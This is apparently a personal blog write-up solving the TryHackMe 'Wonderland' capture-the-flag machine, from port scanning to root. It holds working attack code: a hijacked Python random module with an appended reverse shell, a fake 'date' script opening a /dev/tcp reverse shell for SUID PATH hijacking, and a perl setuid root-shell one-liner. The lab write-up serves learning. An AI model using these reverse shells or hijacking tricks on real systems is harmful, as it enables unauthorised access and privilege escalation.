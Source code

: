 ```yaml
---
date: 2020-06-07 19:54:22
layout: post
title: "Wonderland"
subtitle: Medium Machine from Tryhackme
description: 
image: /writeup/assets/img/wonderland/wonderland.png
optimized_image:
category: Tryhackme
tags: 
author:
paginate: false
---
```

<a href="https://tryhackme.com/room/wonderland">Link</a> to the machine on tryhackme.

I started with nmap scan
```bash
nmap -T4 -p- -A 10.10.58.164
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-07 20:13 IST
Nmap scan report for 10.10.39.171
Host is up (0.25s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 3.1 - 3.2 (92%), Linux 3.11 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   270.56 ms 10.9.0.1
2   279.33 ms 10.10.39.171

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.07 seconds
```
Only two ports were open on the machine, 22 and 80.

Proceeded with port 80, visited the website hosted on the port.
![placeholder](/writeup/assets/img/wonderland/site.png "site")
Site said Follow the white rabbit. Nothing interesting in the source.So,started fuzzing for hidden directories and pages.
```bash
ffuf -w /root/Documents/Fuzz/fuzzdir -u "http://10.10.58.164/FUZZ" -e .php,.html,.txt,.asp,.aspx,.zip
```
![placeholder](/writeup/assets/img/wonderland/fuzz.png "fuzz")
This shows a directory named **r**.So now it is quite  guessable what the home page meant by following the rabbit.
There were directories like /r/a/b/b/i/t/
Inside the directory at the url
```url
http://10.10.58.164/r/a/b/b/i/t/
```
The page said ***"Open the door and enter wonderland"***
![placeholder](/writeup/assets/img/wonderland/enter.png "enter")

In the source of the page the password for alice user was present.

![placeholder](/writeup/assets/img/wonderland/alice.png "alice")

Logged in through SSH as Alice user.

But instead of user.txt, root.txt was present inside the home directory of the Alice user, although it was only accessible by root.
There were in total 4 users on the machine.
![placeholder](/writeup/assets/img/wonderland/users.png "users")
A python script was also present in the home directory and running ***sudo -l***, showed that alice user can run the script as user rabbit.
Enumerating the machine, I found that root directory was accessible by everyone though read permission was not given but execute permission was present.
Since read permission is not there so I can't list the directory but can see the contents of files present in the directory becuase of execute permission if I know the name.
```
cd /root/
cat user.txt
```
Got the user flag.

Analyzing the python script, I found that it is simply importing a module random and then print some random lines from the poem given in script.

Since, the script was present in the directory where I had write permission. So, I did python module/library hijacking.
Since python searches for modules first in the directory where script is present and then according to PYTHONPATH environment variable.

I copied the random.py to the /home/alice and then added my commands inside _test funtion in random.py to get a reverse shell.
The _test function then looked like
```python
def _test(N=2000):
    _test_generator(N, random, ())
    _test_generator(N, normalvariate, (0.0, 1.0))
    _test_generator(N, lognormvariate, (0.0, 1.0))
    _test_generator(N, vonmisesvariate, (0.0, 1.0))
    _test_generator(N, gammavariate, (0.01, 1.0))
    _test_generator(N, gammavariate, (0.1, 1.0))
    _test_generator(N, gammavariate, (0.1, 2.0))
    _test_generator(N, gammavariate, (0.5, 1.0))
    _test_generator(N, gammavariate, (0.9, 1.0))
    _test_generator(N, gammavariate, (1.0, 1.0))
    _test_generator(N, gammavariate, (2.0, 1.0))
    _test_generator(N, gammavariate, (20.0, 1.0))
    _test_generator(N, gammavariate, (200.0, 1.0))
    _test_generator(N, gauss, (0.0, 1.0))
    _test_generator(N, betavariate, (3.0, 3.0))
    _test_generator(N, triangular, (0.0, 1.0, 1.0/3.0))

# Create one instance, seeded from current time, and export its methods
# as module-level functions.  The functions share state across all uses
#(both in the user's code and in the Python libraries), but that's fine
# for most programs and is easier for the casual user than making them
# instantiate their own Random() instance.

_inst = Random()
seed = _inst.seed
random = _inst.random
uniform = _inst.uniform
triangular = _inst.triangular
randint = _inst.randint
choice = _inst.choice
randrange = _inst.randrange
sample = _inst.sample
shuffle = _inst.shuffle
choices = _inst.choices
normalvariate = _inst.normalvariate
lognormvariate = _inst.lognormvariate
expovariate = _inst.expovariate
vonmisesvariate = _inst.vonmisesvariate
gammavariate = _inst.gammavariate
gauss = _inst.gauss
betavariate = _inst.betavariate
paretovariate = _inst.paretovariate
weibullvariate = _inst.weibullvariate
getstate = _inst.getstate
setstate = _inst.setstate
getrandbits = _inst.getrandbits

import os                                                #added
import subprocess                                        #added
import socket         				        #added
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)       #added
s.connect(("10.9.12.192",8888)) 			#added
os.dup2(s.fileno(),0)					#added
os.dup2(s.fileno(),1)					#added
os.dup2(s.fileno(),2)					#added
p=subprocess.call(["/bin/sh","-i"])			#added
```
You can <a href="https://medium.com/@klockw3rk/privilege-escalation-hijacking-python-library-2a0e92a45ca7">refer</a> for more information on python library hijacking.

Now executed the file as rabbit
```
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
Got the reverse shell as user rabbit.

Made the shell better with following commands
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
#Then
export TERM=xterm
#Then press ctrl+z
#type
stty raw -echo
#then
fg
#then press Enter two times.
#This makes shell with most functions as ssh shell.
```

Inside the rabbit user's home directory, I found a SUID binary named teaParty.
Listing the contents of the binary found some information between malformed characters.
![placeholder](/writeup/assets/img/wonderland/teaparty.png "teaparty")

So this binary was executing date command to present the output.
Since this was a SUID binary so,when it will run it will use PATH as of the user who is executing(rather than the case in sudo where the path used is already specified in sudoers file.)

Changed the path to prepend tmp directory.
```
export PATH=/tmp/:$PATH
```

Added a file named ***date*** inside the tmp directory and made it executable.

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.9.12.192/7777 0>&1
```
```bash
chmod +x date
```

Ran the teaParty file and got the shell as user hatter.
Inside the home directory of the user found a password.txt which gave the password for user hatter.
Used the password to switch user in SSH shell of alice. This password also worked directly on SSH login.

Got the SSH shell of hatter user.

Running the linpeas.sh script I found that there were some capabilities with perl command that could give root shell.

The perl command which was either executable by root or by people in hatter group had the capability ***cap_setuid+ep***

Used the command from GTFObins to get the root shell.
```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

Got the shell and the root.txt placed at /home/alice.
![placeholder](/writeup/assets/img/wonderland/root.png "root")


    

 
